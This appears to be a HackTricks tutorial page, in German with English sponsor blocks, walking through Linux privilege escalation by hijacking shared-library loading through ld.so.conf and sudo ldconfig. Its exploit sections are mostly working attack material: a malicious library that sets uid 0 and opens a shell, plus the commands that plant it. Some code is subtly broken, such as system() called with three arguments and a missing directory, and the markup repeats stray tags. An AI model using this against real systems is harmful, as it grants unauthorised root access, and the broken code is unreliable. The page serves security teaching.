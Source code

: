 # ld.so privesc exploit Beispiel

{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstütze HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teile Hacking-Tricks, indem du PRs zu den** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}
{% endhint %}
{% endhint %}
{% endhint %}
{% endhint %}
{% endhint %}
{% endhint %}
{% endhint %}
{% endhint %}
{% endhint %}

## Bereite die Umgebung vor

Im folgenden Abschnitt findest du den Code der Dateien, die wir verwenden werden, um die Umgebung vorzubereiten

{% tabs %}
{% tab title="sharedvuln.c" %}
```c
#include <stdio.h>
#include "libcustom.h"

int main(){
printf("Welcome to my amazing application!\n");
vuln_func();
return 0;
}
```
{% endtab %}

{% tab title="libcustom.h" %}
```c
#include <stdio.h>

void vuln_func();
```
{% endtab %}

{% tab title="libcustom.c" %}
```c
#include <stdio.h>

void vuln_func()
{
puts("Hi");
}
```
{% endtab %}
{% endtabs %}

1. **Erstellen** Sie diese Dateien auf Ihrem Rechner im selben Ordner
2. **Kompilieren** Sie die **Bibliothek**: `gcc -shared -o libcustom.so -fPIC libcustom.c`
3. **Kopieren** Sie `libcustom.so` nach `/usr/lib`: `sudo cp libcustom.so /usr/lib` (Root-Rechte)
4. **Kompilieren** Sie die **ausführbare Datei**: `gcc sharedvuln.c -o sharedvuln -lcustom`

### Überprüfen Sie die Umgebung

Überprüfen Sie, dass _libcustom.so_ von _/usr/lib_ **geladen** wird und dass Sie die Binärdatei **ausführen** können.
```
$ ldd sharedvuln
linux-vdso.so.1 =>  (0x00007ffc9a1f7000)
libcustom.so => /usr/lib/libcustom.so (0x00007fb27ff4d000)
libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007fb27fb83000)
/lib64/ld-linux-x86-64.so.2 (0x00007fb28014f000)

$ ./sharedvuln
Welcome to my amazing application!
Hi
```
## Exploit

In diesem Szenario nehmen wir an, dass **jemand einen verwundbaren Eintrag** in einer Datei in _/etc/ld.so.conf/_ erstellt hat:
```bash
sudo echo "/home/ubuntu/lib" > /etc/ld.so.conf.d/privesc.conf
```
Der verwundbare Ordner ist _/home/ubuntu/lib_ (wo wir schreibbaren Zugriff haben).\
**Laden Sie den folgenden Code herunter und kompilieren Sie ihn** in diesem Pfad:
```c
//gcc -shared -o libcustom.so -fPIC libcustom.c

#include <stdio.h>
#include <unistd.h>
#include <sys/types.h>

void vuln_func(){
setuid(0);
setgid(0);
printf("I'm the bad library\n");
system("/bin/sh",NULL,NULL);
}
```
Jetzt, da wir die **bösartige libcustom-Bibliothek im falsch konfigurierten** Pfad **erstellt haben**, müssen wir auf einen **Neustart** oder darauf warten, dass der Root-Benutzer **`ldconfig`** ausführt (_falls Sie diese Binärdatei als **sudo** ausführen können oder das **suid-Bit** gesetzt ist, können Sie sie selbst ausführen_).

Sobald dies geschehen ist, **überprüfen** Sie erneut, wo das `sharevuln`-Executable die `libcustom.so`-Bibliothek lädt:
```c
$ldd sharedvuln
linux-vdso.so.1 =>  (0x00007ffeee766000)
libcustom.so => /home/ubuntu/lib/libcustom.so (0x00007f3f27c1a000)
libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f3f27850000)
/lib64/ld-linux-x86-64.so.2 (0x00007f3f27e1c000)
```
Wie Sie sehen können, wird es **von `/home/ubuntu/lib` geladen** und wenn ein Benutzer es ausführt, wird eine Shell ausgeführt:
```c
$ ./sharedvuln
Welcome to my amazing application!
I'm the bad library
$ whoami
ubuntu
```
{% hint style="info" %}
Beachten Sie, dass wir in diesem Beispiel keine Berechtigungen erhöht haben, aber durch das Modifizieren der ausgeführten Befehle und **Warten auf den Root- oder einen anderen privilegierten Benutzer, der die verwundbare Binärdatei ausführt**, werden wir in der Lage sein, die Berechtigungen zu erhöhen.
{% endhint %}

### Andere Fehlkonfigurationen - Dieselbe Verwundbarkeit

Im vorherigen Beispiel haben wir eine Fehlkonfiguration vorgetäuscht, bei der ein Administrator **einen nicht privilegierten Ordner in einer Konfigurationsdatei in `/etc/ld.so.conf.d/`** festgelegt hat.\
Es gibt jedoch andere Fehlkonfigurationen, die dieselbe Verwundbarkeit verursachen können. Wenn Sie **Schreibberechtigungen** in einer **Konfigurationsdatei** innerhalb von `/etc/ld.so.conf.d`, im Ordner `/etc/ld.so.conf.d` oder in der Datei `/etc/ld.so.conf` haben, können Sie dieselbe Verwundbarkeit konfigurieren und ausnutzen.

## Exploit 2

**Angenommen, Sie haben sudo-Berechtigungen für `ldconfig`**.\
Sie können `ldconfig` **angeben, wo die Konfigurationsdateien geladen werden sollen**, sodass wir dies ausnutzen können, um `ldconfig` anzuweisen, beliebige Ordner zu laden.\
Lassen Sie uns also die benötigten Dateien und Ordner erstellen, um "/tmp" zu laden:
```bash
cd /tmp
echo "include /tmp/conf/*" > fake.ld.so.conf
echo "/tmp" > conf/evil.conf
```
Jetzt, wie im **vorherigen Exploit** angegeben, **erstellen Sie die bösartige Bibliothek im Verzeichnis `/tmp`**.\
Und schließlich laden wir den Pfad und überprüfen, wo die Binärdatei die Bibliothek lädt:
```bash
ldconfig -f fake.ld.so.conf

ldd sharedvuln
linux-vdso.so.1 =>  (0x00007fffa2dde000)
libcustom.so => /tmp/libcustom.so (0x00007fcb07756000)
libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007fcb0738c000)
/lib64/ld-linux-x86-64.so.2 (0x00007fcb07958000)
```
**Wie Sie sehen können, können Sie mit sudo-Rechten über `ldconfig` dieselbe Schwachstelle ausnutzen.**

{% hint style="info" %}
{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
</details>
{% endhint %}
</details>
{% endhint %}
</details>
{% endhint %}
</details>
{% endhint %}
</details>
{% endhint %}
</details>
{% endhint %}
</details>
{% endhint %}
</details>
{% endhint %}
